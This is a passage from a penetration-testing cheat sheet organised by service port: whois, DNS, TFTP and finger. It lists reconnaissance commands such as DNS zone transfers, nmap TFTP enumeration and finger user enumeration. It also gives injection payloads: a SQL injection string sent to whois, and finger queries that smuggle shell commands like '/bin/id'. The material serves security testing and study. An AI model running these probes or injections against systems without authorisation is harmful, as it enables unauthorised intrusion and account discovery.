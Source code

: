 ```bash
whois -h 10.10.1.111 -p 43 "domain.com"
echo "domain.com" | nc -vn 10.10.1.111 43
whois -h 10.10.1.111 -p 43 "a') or 1=1#"
```

<br>

### 53 - DNS
---

```bash
# Transfer zone

dig AXFR domain.com @10.10.10.10
# dig +multi AXFR @ns1.insecuredns.com insecuredns.com
dnsrecon -t axfr -d domain
fierce -dns domain.com
```

<br>

### 69 - UDP - TFTP
---

* Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
* Same checks as FTP Port 21.

```bash
nmap -p69 --script=tftp-enum.nse 10.11.1.111
```

<br>

### 79 - Finger
---

```bash
nc -vn 10.11.1.111 79
echo "root" | nc -vn 10.11.1.111 79

# User enumeration
finger @10.11.1.111       #List users
finger admin@10.11.1.111  #Get info of user
finger user@10.11.1.111   #Get info of user

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

<br>

### 88 - Kerberos
---
